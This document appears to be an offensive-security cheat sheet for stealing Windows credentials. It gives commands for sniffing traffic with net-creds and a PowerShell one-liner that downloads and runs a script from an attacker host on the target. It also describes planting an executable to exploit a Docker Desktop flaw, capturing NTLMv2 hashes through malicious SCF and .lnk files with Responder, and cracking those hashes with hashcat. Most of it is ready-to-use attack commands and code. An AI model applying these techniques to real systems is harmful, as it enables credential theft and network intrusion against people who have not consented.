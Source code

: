 
### Traffic Capture
```bash
# Wireshark (GUI)
# tcpdump (replace <interface>)
tcpdump -i <interface>
# net-creds (replace <interface> or <pcap_file>)
net-creds -i <interface>
net-creds -f <pcap_file>
```

### Process Command Lines
```powershell
# PowerShell (on target)
powershell IEX (iwr 'http://10.10.10.205/procmon.ps1')
```

### SCF on File Share
```bash
# (Create @Inventory.scf with appropriate content)
# Responder (replace <interface>)
sudo responder -wrf -v -I <interface>
```

### Cracking NTLMv2 Hash
```bash
# Hashcat (replace <hash_file> and <wordlist>)
hashcat -m 5600 <hash_file> <wordlist>
```

### Malicious .lnk File (PowerShell)
```powershell
# (Replace <attackerIP> in the script)
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```




**1. Traffic Capture**

- **Wireshark:**
    - Utilize Wireshark (if installed) to capture network traffic.
    - Analyze captured traffic for cleartext credentials (e.g., FTP).
- **tcpdump/Wireshark (on attack machine):**
    - Capture network traffic on the attack machine using tcpdump or Wireshark.
- **net-creds:**
    - Use `net-creds` to sniff passwords and hashes from a live interface or pcap file.

**2. Process Command Lines**

- **Monitor process command lines:**
    - Use the provided PowerShell script to monitor process command lines for potentially exposed credentials.
- **Execute monitoring script on target:**
    - Host the script on the attack machine (e.g., `http://10.10.10.205/procmon.ps1`).
    - Execute on the target using: `powershell IEX (iwr 'http://10.10.10.205/procmon.ps1')`

**3. Vulnerable Services**

- **CVE-2019-15752 (Docker Desktop):**
    - Exploit the vulnerability by placing a malicious executable in `C:\PROGRAMDATA\DockerDesktop\version-bin\`.
    - Wait for the Docker application to restart or a user to execute `docker login`.

**4. SCF on a File Share**

- **Create a malicious SCF file (e.g., `@Inventory.scf`):**
    - Use the provided SCF file content, replacing the attacker IP and share details.
- **Start Responder:**
    - `sudo responder -wrf -v -I tun0` (replace `tun0` with your interface)
- **Wait for user interaction:**
    - Monitor Responder for captured NTLMv2 hashes.

**5. Cracking NTLMv2 Hash**

- **Use Hashcat:**
    - `hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt` (replace `hash` and wordlist path)

**6. Capturing Hashes with Malicious .lnk File**

- **Generate a malicious .lnk file:**
    - Use the provided PowerShell script, replacing the attacker IP.
- **Place the .lnk file on a share or target machine.**
- **Start Responder and monitor for captured hashes.**